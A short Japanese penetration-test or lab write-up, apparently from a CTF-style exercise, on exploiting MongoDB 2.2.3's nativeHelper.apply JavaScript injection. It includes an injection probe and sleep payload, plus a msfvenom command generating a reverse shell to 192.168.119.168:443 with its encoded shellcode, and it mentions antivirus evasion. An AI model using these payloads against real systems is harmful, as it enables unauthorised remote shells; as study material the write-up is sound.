






# mongodb

### 2.2.3 nativeHelper.apply

* gobusterで以下ディレクトリにたどり着く. 27017でmongodbが起動している



* 文字列を入れるとエクセプション画面に遷移し脆弱性を確認可能

  ```
  '
  ```

  

  

* 2.2.3でsearchsploitするとnativeHelper.applyの脆弱性にたどり着く

  

  

* 以下入力を行うと、javascriptでsleep処理が動いた後にエラー画面に遷移する

  ```
  ';sleep(5000); '
  ```

  

  入力内容は囲った枠のようになる。きちんとシングルクウォートとダブルクオートが一致していないとそれぞれエスケープされる処理が入っているため、整合性を合わせて入力を作る必要がある

* msfvenomでpayloadを作成する

  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.168 LPORT=443 CMD=/bin/bash -f js_le -e generic/none
  
  [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
  [-] No arch selected, selecting arch: x86 from the payload
  Found 1 compatible encoders
  Attempting to encode payload with 1 iterations of generic/none
  generic/none succeeded with size 73 (iteration=0)
  generic/none chosen with final size 73
  Payload size: 74 bytes
  Final size of js_le file: 222 bytes
  %udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u68a8%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6268%u7361%u6868%u6962%u2f6e%u2f68%u2f2f%u892f%u52e3%u8953%ub0e1%ucd0b%u4180
  ```

* exploitコードは最終的に以下となる（AV回避）

  

* 参考にしたサイト

  https://www.objectrocket.com/blog/mongodb/code-injection-in-mongodb/